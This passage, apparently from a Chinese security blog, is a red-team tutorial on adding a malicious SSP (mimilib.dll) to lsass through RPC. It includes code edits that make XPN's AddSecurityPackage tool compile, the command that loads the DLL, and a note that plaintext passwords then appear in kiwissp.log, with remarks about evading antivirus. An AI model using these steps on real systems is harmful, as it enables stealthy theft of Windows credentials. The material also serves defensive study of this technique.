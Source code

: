 这个方法的好处是不需要重启计算机便可以添加mimilib，但它并不是最好的方法，因为它需要修改注册表，SSP必须在lsass中注册，这样很容易被检测到。  

#### **2.2通过RPC调用添加SSP**
在学习了国外大佬XPN的博客  
<https://blog.xpnsec.com/exploring-mimikatz-part-2/>  
发现用RPC去调用添加SSP会更好，整个过程有较少的敏感行为，可以规避杀软的检测，当然，添加的dll肯定不能用mimilib，我们需要自己生成一个，参考奇安信A-TEAM的文章:  
<https://blog.ateam.qianxin.com/post/zhe-shi-yi-pian-bu-yi-yang-de-zhen-shi-shen-tou-ce-shi-an-li-fen-xi-wen-zhang/#442-%E7%BB%95%E8%BF%87%E5%8D%A1%E5%B7%B4%E6%96%AF%E5%9F%BA%E6%8A%93lsass%E4%B8%AD%E7%9A%84%E5%AF%86%E7%A0%81>  

这里面已经给出了dump内存的dll代码，实战可以采用A-TEAM的dll，本文为了方便演示便继续使用mimilib.dll。  
首先，我们下载XPN大佬写好的代码:  
<https://gist.github.com/xpn/c7f6d15bf15750eae3ec349e7ec2380e>   
我用的是visual studio 2019，下载好之后不能直接编译成功，我们需要修改下代码:
- 将sspi_c.c和AddSecurityPackage_RawRPC.c的后缀改为cpp
- 在sspi_h.h中添加:
```cpp
#pragma comment(lib, "Rpcrt4.lib")
```
- 将AddSecurityPackage_RawRPC.cpp中的
```cpp
unsigned char* pszStringBinding = NULL;
```
修改为
```cpp
RPC_WSTR pszStringBinding = NULL;
```
将
```cpp
status = RpcStringBindingCompose(NULL,
		(unsigned char*)"ncalrpc",
		NULL,
		(unsigned char*)"lsasspirpc",
		NULL,
		&pszStringBinding);
```
修改为
```cpp
status = RpcStringBindingCompose(NULL,
		(RPC_WSTR)L"ncalrpc",
		NULL,
		(RPC_WSTR)L"lsasspirpc",
		NULL,
		&pszStringBinding);
```
修改好后编译生成即可。放到我们的实验环境下，在cmd中运行:
```shell
xxx.exe C:\Users\Administrator\Desktop\mimilib.dll
```
xxx.exe是我们刚刚生成用于添加SSP的exe，这里dll需要写绝对路径，如图，添加成功:<br><br>
![avatar](https://raw.githubusercontent.com/Fun0nydg/blogpic/main/2021-02-15/3-1.png)<br><br>

锁屏之后重新登录，我们发现在c:\windows\system32\kiwissp.log中记录了明文密码:<br><br>
![avatar](https://raw.githubusercontent.com/Fun0nydg/blogpic/main/2021-02-15/3-2.png)<br><br>

---